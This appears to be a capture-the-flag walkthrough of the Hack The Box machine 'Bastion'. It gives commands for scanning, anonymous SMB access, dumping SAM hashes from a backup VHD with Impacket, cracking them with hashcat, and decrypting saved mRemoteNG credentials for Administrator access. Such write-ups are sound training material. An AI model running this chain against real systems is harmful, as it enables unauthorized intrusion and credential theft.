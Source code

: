 # Bastion HTB Walkthrough

## Target Information
- **IP Address**: 10.10.10.134
- **Hostname**: bastion.htb
- **OS**: Windows Server 2016 Standard 14393

---

## 🛠 Initial Setup & Reconnaissance

### 🎯 Environment Preparation
1. Store target IP for automation:
```bash
echo "10.10.10.134" > target
```

2. Add DNS resolution to hosts file:
```bash
echo "10.10.10.134 bastion.htb" | sudo tee -a /etc/hosts
```

---

## 🔍 Network Enumeration

### Port Discovery
Performed full TCP port scan:
```bash
nmap -p- -iL target -v -oN nmap/tcp_ports_scan.txt
```

**Findings**:
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664-49670/tcp open  msrpc
```

### Service Enumeration
Aggressive scan on open ports:
```bash
ports=$(awk -F '/' 'NR>=6 && NR<=18 {print $1}' nmap/tcp_ports_scan.txt | paste -sd ',')
nmap -p$ports -sCV -oA nmap/service_scan -iL target
```

**Key Findings**:
- SMB (445/tcp): Windows Server 2016 Standard
- WinRM (5985/47001): Potential remote management access
- SSH (22/tcp): OpenSSH for Windows 7.9

---

## 📁 SMB Exploitation

### Share Enumeration
List available SMB shares:
```bash
smbclient -L \\\\bastion.htb\\ -N
```

**Discovered Shares**:
```
ADMIN$          - Remote Admin
Backups         - Potential backup storage
C$              - Default system share
IPC$            - Inter-process communication
```

![image](https://github.com/user-attachments/assets/ce65f502-3ed9-4113-bab3-5894284dfaca)

### Accessing Backups Share
Anonymous access to Backups share:
```bash
smbclient \\\\bastion.htb\\Backups -N
```

**Discovered Files**:
- 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd (System Boot)
- 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd (User Data)

### Mounting Virtual Hard Disks
1. Mount SMB share:
```bash
mkdir /mnt/backups
mount -t cifs //bastion.htb/Backups /mnt/backups -o ro,vers=2.1
```

3. Extract and mount VHD (if you got an error, try to list on it anyway):
```bash
mkdir /tmp/vhd
7z x /mnt/backups/9b9cfbc4-*.vhd -o/tmp/vhd
```

### Credential Extraction
Dump SAM database using Impacket:
```bash
impacket-secretsdump -sam /tmp/vhd/Windows/System32/config/SAM \
                     -system /tmp/vhd/Windows/System32/config/SYSTEM LOCAL
```

**Extracted Hashes**:
```
Administrator:500:aad3b... 
L4mpje:1000:aad3b... 
```

### Password Cracking
Crack NTLM hashes with Hashcat:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## Initial Access

### SSH Connection
Authenticate with obtained credentials:
```bash
ssh L4mpje@bastion.htb
```

You'll got the user flag.

---

## ⚙️ Privilege Escalation

**mRemoteNG Credential Extraction**

1. Found mRemoteNG installed in:
```shell
C:\Program Files (x86)\
```

![Screenshot from 2025-04-13 11-44-43](https://github.com/user-attachments/assets/2d9c9075-9bd5-45d9-b7d0-281d6aa26a2e)

2. Config file with saved credentials:
```shell
C:\Users\<User>\AppData\Roaming\mRemoteNG\confCons.xml
```

![Screenshot from 2025-04-13 11-45-57](https://github.com/user-attachments/assets/3b5cf8f9-6d7d-4336-bbce-cde11edeee8c)

3. Base64 encoded password was found in the file.

4. Decrypt password using the Python tool:

```bash
git clone https://github.com/kmahyyg/mremoteng-decrypt.git
cd mremoteng-decrypt
python3 mremoteng_decrypt.py -s <Base64 string>
```

5. Logged in as Administrator using decrypted credentials.

---

## 🏁 Summary

* ✅ Initial access: SMB share > VHD > Password hash dump > SSH login
* 🔐 Privilege escalation: Extract mRemoteNG creds > Decrypt > Admin access

---
